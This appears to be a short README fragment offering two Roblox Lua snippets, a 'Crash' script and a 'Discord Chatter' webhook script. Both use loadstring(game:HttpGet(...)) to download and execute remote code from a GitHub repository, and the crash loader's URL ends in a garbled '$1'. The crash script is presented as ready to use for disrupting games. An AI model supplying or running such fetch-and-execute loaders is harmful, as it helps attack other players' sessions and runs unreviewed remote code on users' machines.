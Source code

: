 # Crash (usable)
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/luminostride/lumoengine/main/lumo$1"))()
```
# Discord Chatter (usable, make sure to change "url" to the webhook url)

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/luminostride/lumoengine/main/webhooksource.lua"))()
```
